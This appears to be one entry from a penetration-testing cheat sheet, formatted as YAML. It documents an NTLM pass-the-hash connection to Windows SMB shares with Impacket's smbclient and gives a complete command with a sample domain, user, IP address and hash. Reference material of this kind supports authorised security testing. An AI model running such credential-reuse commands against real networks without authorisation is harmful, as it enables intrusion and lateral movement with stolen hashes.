 ```yaml
---
description: Use Impacket's smbclient to connect to SMB shares on a Windows host using NTLM Pass-the-Hash authentication.

Command Reference:
    Target IP: 10.10.10.1
    Domain: test.local
    Username: john
    Hash: 580B16D486D8D2CAFA00B314D41FA396 (NTLM hash)

command: |
  impacket-smbclient -hashes 00000000000000000000000000000000:580B16D486D8D2CAFA00B314D41FA396 test.local/john@10.10.10.1

items:
  - Hash
  - SMB

services:
  - SMB
  - NTLM

OS:
  - Windows

attack_types:
  - Enumeration

references:
  - https://github.com/fortra/impacket
  - https://learn.microsoft.com/en-us/windows/win32/fileio/microsoft-smb-protocol-and-cifs-protocol-overview
---
```

